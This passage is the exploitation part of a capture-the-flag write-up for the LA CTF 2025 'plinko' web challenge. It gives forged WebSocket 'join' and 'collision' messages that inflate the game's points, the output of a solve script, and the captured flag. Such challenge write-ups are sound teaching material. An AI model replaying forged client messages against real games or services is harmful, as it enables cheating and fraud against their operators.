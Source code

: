 ## Exploitation

Armed with above information, we can cheat in this game and get $10,000 for the flag!

To do so, we need to send the following WebSocket messages 11 times to get $10,000:

Initial ball message:

```json
{
    "msgType": "join",
    "ballPos": {
        "x": 500,
        "y": 1000
    },
    "ballVelo": {
        "x": 0,
        "y": 0
    },
    "time": 0
}
```

Collision message:

```json
{
    "msgType": "collision",
    "velocity": {
        "x": 0,
        "y": 0
    },
    "position": {
        "x": 0,
        "y": 1000
    },
    "obsPosition": {
        "x": 500,
        "y": 1000
    },
    "time": 0
}
```

To automate the above steps, I've written the following Python solve script:

<details><summary markdown="span"><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/LA-CTF-2025/web/plinko)-[2025.02.11|15:38:34(HKT)]
└> python3 solve.py
[*] Registering a new account. Username and password: OmYvJiKMvr
[*] Current points: 9900 
[+] Flag: lactf{mY_b4Ll_w3Nt_P1iNk_pL0Nk_4nD_n0W_1m_br0K3}
```

- **Flag: `lactf{mY_b4Ll_w3Nt_P1iNk_pL0Nk_4nD_n0W_1m_br0K3}`**

## Conclusion

What we've learned:

1. Web game hacking and manipulating WebSocket messages
